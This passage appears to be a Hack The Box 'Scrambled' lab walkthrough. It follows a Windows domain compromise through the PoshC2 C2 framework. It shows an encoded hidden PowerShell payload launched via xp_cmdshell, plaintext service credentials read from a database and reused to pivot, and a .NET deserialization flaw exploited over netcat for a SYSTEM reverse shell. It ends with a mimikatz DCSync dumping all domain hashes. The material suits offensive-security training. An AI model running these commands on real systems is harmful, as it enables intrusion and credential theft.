
SQL> xp_cmdshell powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBlAHIAdgB....FMA
After running this command in MSSQL we will receive a new implant in our C2.
Team server window:

Operation window:

If we execute the command help we can do many useful operations such as: Active Directory enumeration, lateral movement, privilege escalation and many.
As an example, let's enumerate domain objects ACLs:
SCRM\sqlsvc @ DC1 (PID:5948)
PS 1> invoke-aclscanner
# teamserver:
Task 00003 (user1) returned against implant 1 on host SCRM\sqlsvc @ DC1 (2022-07-15 07:56:23)
ObjectDN : DC=RootDNSServers,CN=MicrosoftDNS,CN=System,DC=scrm,DC=local
AceQualifier : AccessAllowed
ActiveDirectoryRights : CreateChild, DeleteChild, ListChildren, ReadProperty, DeleteTree, ExtendedRight, Delete,
GenericWrite, WriteDacl, WriteOwner
ObjectAceType : None
AceFlags : ContainerInherit, Inherited
AceType : AccessAllowed
InheritanceFlags : ContainerInherit
SecurityIdentifier : S-1-5-21-2743207045-1827831105-2542523200-1101
IdentityReferenceName : DnsAdmins
IdentityReferenceDomain : scrm.local
IdentityReferenceDN : CN=DnsAdmins,CN=Users,DC=scrm,DC=local
IdentityReferenceClass : group
ObjectDN : DC=@,DC=RootDNSServers,CN=MicrosoftDNS,CN=System,DC=scrm,DC=local
AceQualifier : AccessAllowed
ActiveDirectoryRights : CreateChild, DeleteChild, ListChildren, ReadProperty, DeleteTree, ExtendedRight, Delete,
GenericWrite, WriteDacl, WriteOwner
ObjectAceType : None
AceFlags : ContainerInherit, Inherited
AceType : AccessAllowed
InheritanceFlags : ContainerInherit
SecurityIdentifier : S-1-5-21-2743207045-1827831105-2542523200-1101
IdentityReferenceName : DnsAdmins
IdentityReferenceDomain : scrm.local
IdentityReferenceDN : CN=DnsAdmins,CN=Users,DC=scrm,DC=local
IdentityReferenceClass : group
Pivot to MiscSQL¶
Going back to MSSQL, enumerate the databases:
SQL> SELECT name FROM master.dbo.sysdatabases;
name
--------------------------------------------------------------------------------------------------------------------------------
master
tempdb
model
msdb
ScrambleHR
Enumerating the database ScrambleHR tables disclose for us the table UserImport
SELECT * FROM SYSOBJECTS
The table UserImport contains a Domain User creds:
SQL> select * from UserImport
LdapUser LdapPwd LdapDomain RefreshInterval IncludeGroups
-------------------------------------------------- -------------------------------------------------- -------------------------------------------------- --------------- -------------
MiscSvc ScrambledEggs9900 scrm.local 90 0
SQL>
The creds are MiscSvc:ScrambledEggs9900 we can test the validity of the obtained creds using PoshC2
PS 1> test-adcredential -domain scrm.local -user miscsvc -password ScrambledEggs9900
Team Server:
Task 00023 (user1) returned against implant 1 on host SCRM\sqlsvc @ DC1 (2022-07-15 08:23:53)
Username Password IsValid
-------- -------- -------
miscsvc ScrambledEggs9900 True
To pivot to the Domain User MiscSVC run the following command in operations window:
$password = ConvertTo-SecureString "ScrambledEggs9900" -AsPlainText -Force
$creds = new-object system.management.automation.pscredential("scrm.local\miscsvc", $password)
invoke-command -computer . -scriptblock { <PoshC2 powershell oneliner payload> } -credential $creds
After running the commands we will receive new implant as the domain user miscsvc


Now we obtain access as miscsvc
Privilege Escalation¶
Enumerating Sales App¶
By enumerating the host, we will identifies executable application "Sales Order App" which is locate at: c:\shares\it\apps\Sales Order Client.

We can download both files using PoshC2 by issuing the following command:
download-file "c:\shares\it\apps\Sales Order Client\ScrambleClient.exe"
download-file "c:\shares\it\apps\Sales Order Client\ScrambleLib.dll"
The download location is at: /var/poshc2/htb/downloads.
Here I used dnSpy to decompile the .NET applications. I focused in the .dll. After enumerating the source code of ScrambleLib.dll, found a function called UploadOrder that takes the input and deserialize it. From the first code, we can identify that we can pass the string UPLOAD_ORDER followed by simi-column followed by serialize object in base64 format. After passing this input the server will deserialize it and execute it.
public static string GetCodeFromMessageType(ScrambleNetRequest.RequestType MsgType)
{
if (ScrambleNetRequest._MessageTypeToCode == null)
{
ScrambleNetRequest._MessageTypeToCode = new Dictionary<ScrambleNetRequest.RequestType, string>();
ScrambleNetRequest._MessageTypeToCode.Add(ScrambleNetRequest.RequestType.CloseConnection, "QUIT");
ScrambleNetRequest._MessageTypeToCode.Add(ScrambleNetRequest.RequestType.ListOrders, "LIST_ORDERS");
ScrambleNetRequest._MessageTypeToCode.Add(ScrambleNetRequest.RequestType.AuthenticationRequest, "LOGON");
ScrambleNetRequest._MessageTypeToCode.Add(ScrambleNetRequest.RequestType.UploadOrder, "UPLOAD_ORDER");
}
return ScrambleNetRequest._MessageTypeToCode[MsgType];
public void UploadOrder(SalesOrder NewOrder)
{
try
{
Log.Write("Uploading new order with reference " + NewOrder.ReferenceNumber);
string text = NewOrder.SerializeToBase64();
Log.Write("Order serialized to base64: " + text);
ScrambleNetResponse scrambleNetResponse = this.SendRequestAndGetResponse(new ScrambleNetRequest(ScrambleNetRequest.RequestType.UploadOrder, text));
ScrambleNetResponse.ResponseType type = scrambleNetResponse.Type;
if (type != ScrambleNetResponse.ResponseType.Success)
{
throw new ApplicationException(scrambleNetResponse.GetErrorDescription());
}
Log.Write("Upload successful");
}
catch (Exception ex)
{
Log.Write("Error: " + ex.Message);
throw ex;
}
}
As verification we can pass the string UPLOAD_ORDER followed by anything:
htb/downloads → nc 10.10.11.168 4411
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER
ERROR_GENERAL;Error deserializing sales order: Attempting to deserialize an empty stream.
UPLOAD_ORDER;1
ERROR_GENERAL;Error deserializing sales order: Invalid length for a Base-64 char array or string.
As we can see the server takes the string after the simi-column and attempt to deserialize it. We can abuse this to obtain command executing by passing serialized reverse shell command.

Now connect to Sales app server using netcat and enter the deserialized string as below:
nc 10.10.11.168 4411
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;AAEAAAD/////...
After short time we will receive a new implant as SYSTEM  .
.


Finally, we can conduct DCSync towards the Domain Controller from PoshC2 using the following command:
invoke-mimikatz -command '"privilege::debug" "lsadump::dcsync /domain:scrm.local /all"'

Lesson Learned¶
-
Using PoshC2 as Command & Control for PT Operations.
-
User enumeration via pre-authetication.
-
Dealing with kerberos authentication to lateral movements and pivoting.
-
.NET source code review.
-
Deserialization attack.